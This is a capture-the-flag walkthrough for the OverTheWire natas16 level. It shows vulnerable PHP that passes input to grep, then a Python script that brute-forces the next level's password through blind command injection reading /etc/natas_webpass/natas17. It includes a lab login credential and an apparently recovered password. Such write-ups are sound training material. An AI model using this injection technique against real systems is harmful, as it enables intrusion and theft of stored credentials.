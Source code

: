 ```yaml
---
title: natas 16 walkthrough
description: over the wire natas 16
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-16 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 16 walkthrough
    order: 30
---
```

# Description
> Username: natas16
> 
> URL:      http://natas16.natas.labs.overthewire.org
## Source Code
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

---
# Progress
## Observation
Some characters are filtered. Our payload should contain `/etc/natas_webpass/natas17` in order to interact with the password.
## Payload
QQ
## Program
```python
import requests
from bs4 import BeautifulSoup

def request_with_password(password : str) -> bool:
    payload = f"?needle=$(grep ^{password} /etc/natas_webpass/natas17)&submit=Search"
    return request_with_payload(payload)

def request_with_payload(payload: str):
    header = {
        "Authorization" : "Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==",
    }
    url = "http://natas16.natas.labs.overthewire.org/"
    url += payload
    response = requests.get(url, headers=header)
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('pre')
    return "African" not in content.__str__()

def main():
    success_password = ""
    letters = 'abcdefghijklmnopqrstuvwxyz'
    candidates = letters + letters.upper() + "0123456789"
    while True:
        for candidate in candidates:
            if request_with_password(success_password + candidate):
                success_password += candidate
                print(success_password)
                break
        else:
            print(f"password : {success_password}")
            break

main()
```
XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd

---
# Hint

---
# Solving
## Category
- 
## Techniques
- 
## Tools
- [[grep]]